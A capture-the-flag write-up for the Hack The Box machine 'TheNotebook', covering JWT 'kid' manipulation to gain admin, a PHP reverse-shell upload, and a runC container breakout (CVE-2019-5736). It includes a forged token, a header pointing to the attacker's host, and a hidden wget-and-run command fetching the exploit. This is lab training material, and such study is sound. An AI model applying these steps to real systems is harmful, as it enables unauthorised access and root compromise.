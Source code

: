 ![](theNotebook_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.230 theNotebook.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
80/tcp open  http    nginx/1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**web server**

![](screenshots/web-fpage.png)

Registering with new account and notice cookie.

![](screenshots/big-cookie.png)KID manipulationJSON Web Token) authentication cookie

![](screenshots/jwt-auth.png)

# Foothold

## JWT bypass

* **Useful tool:** 
  * [jwt_tool](https://github.com/ticarpi/jwt_tool)
  * [jwt-hack](https://github.com/hahwul/jwt-hack)

* **Resources**
  * [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/JSON%20Web%20Token/README.md)
* Online JWT Encoder – Decoder [jsonwebtoken.io](https://www.jsonwebtoken.io/)
* Online jwt generator [jwtbuilder.jamiekurtz.com](https://jwt.io/)

JWT authentication cookie is divided into three parts: header, payload, signature. These values divided by `.`

**JSON Web Token:** `Base64(Header).Base64(Data).Base64(Signature)`

* **Header:** contain information about the JWT configuration.
* **Data:** used to store some users’ data.
* **Signature:** used to prevent data from being modified. The signature uses RS256 (RSA asymmetric encryption and private key signature) and HS256 (HMAC SHA256 symmetric encryption) algorithm.

There are multiple ways to bypass [Vickie Li](https://twitter.com/vickieli7) show in her [medium blog](https://medium.com/swlh/hacking-json-web-tokens-jwts-9122efe91e4a)

On this box we are doing **"KID manipulation"** via **"SSRF"**

**KID:** it allows to specify the key to be used for verifying the token.

**Creating tampered jwt**

**Header**
```json
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://10.10.15.71/privKey.key"
}
```

**Data**
```json
{
  "username": "test12",
  "email": "test12@test.com",
  "admin_cap": true
}
```

![](screenshots/jwt-created.png)

After creating jwt save its private key in a file and start web server.
<!--
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNS43MS9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6InRlc3QxMiIsImVtYWlsIjoidGVzdDEyQHRlc3QuY29tIiwiYWRtaW5fY2FwIjp0cnVlfQ.h2XetEdg5NzVsL7p1QvOBxsppWmjMQBzTYP_Nctdv6GPLuJnkXgSv5gcVicyzgWD_dxmbjVG5D7ilitMxLZ0KfmRROfcZ52hKkJEaYPAi6dEfSPup59bN-5Z4A3DdTycyvJRYgG8c7s_GD5gZ9ZkNDyPurD3AnxiwQWUfJvpXE8g169a4isuFsyoGv82RHq4ZQJuWgHZsS-5ZhzenrwVIjrC_6s26bCJmJwwC1CjJkGCARlAnZQIatrkhLoXYrhTy4ELlGkZOUxyCRCsueX1CtAcA2bPDbo2gyiPDJHacgu45rPH74UUxDelQZuCDL1jrFjUZdNuaZs9T4uI3H8etA
-->

now changing the `auth` value in cookie parameter and replace with new generated jwt and forward the request. If everythings gose right we get admin panel

![](screenshots/get-admin.png)

then using hackbar to load tampered cookie

![](screenshots/hackbar-load.png)

admin panel have file upload option which allowed any file to upload **reverse shell** too.

![](screenshots/file-upload.png)

upload php reverse shell get file name execute the file and get shell on the box.

![](screenshots/web-shell.png)

# Privesc

found home directory backup in the `/var/backups` folder which contains noah user home folder.

![](screenshots/back-rsa.png)

## Breaking Docker via runC

User have sudo right to run `docker exec` as any user on the box with NOPASSWD.
```bash
noah@thenotebook:~$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```

**Docker version 18.06.0-ce, build 0ffa825**

searchsploit found exploit
```bash
❯ searchsploit Docker 18.06
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
runc < 1.0-rc6 (Docker < 18.09.2) - Container Breakout (1)                          | linux/local/46359.md
runc < 1.0-rc6 (Docker < 18.09.2) - Container Breakout (2)                          | linux/local/46369.md
------------------------------------------------------------------------------------ ---------------------------------
```

Also found the runc bianry
```bash
noah@thenotebook:~$ ls -la /usr/sbin/runc
-rwxr-xr-x 1 root root 7841912 Feb 18 13:45 /usr/sbin/runc
```

**runc version 1.0.0~rc6+dfsg1**

* **[CVE-2019-5736](https://www.cvedetails.com/cve/CVE-2019-5736/):** runc through 1.0-rc6, as used in Docker before 18.09.2 and other products, allows attackers to overwrite the host runc binary (and consequently obtain host root access) by leveraging the ability to execute a command as root within one of these types of containers: (1) a new container with an attacker-controlled image, or (2) an existing container, to which the attacker previously had write access, that can be attached with docker exec. This occurs because of file-descriptor mishandling, related to /proc/self/exe.

* [PoC by Frichetten@github](https://github.com/Frichetten/CVE-2019-5736-PoC)
* [Exploit](https://www.exploit-db.com/exploits/46369)

First get the inside container using sudo command
```bash
sudo -u root /usr/bin/docker exec -it webapp-dev01 /bin/bash
```

Upload [exploit zip](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/46369.zip) inside the container

inside zip, modified `bad_init.sh` with command that you want to execute on the host in `BAD_BINARY` variable.

![](screenshots/edit-bad-init.png)

run make script
<!--mkdir /tmp/exp && cd /tmp/exp && wget 10.10.15.71:8000/CVE-2019-5736.zip && unzip CVE-2019-5736.zip && ./make.sh-->

![](screenshots/run-make.png)

Now exit the container and execute `/bin/bash` in the same container 2 times.
```bash
sudo -u root /usr/bin/docker exec -it webapp-dev01 /bin/bash
```

![](screenshots/run-again.png)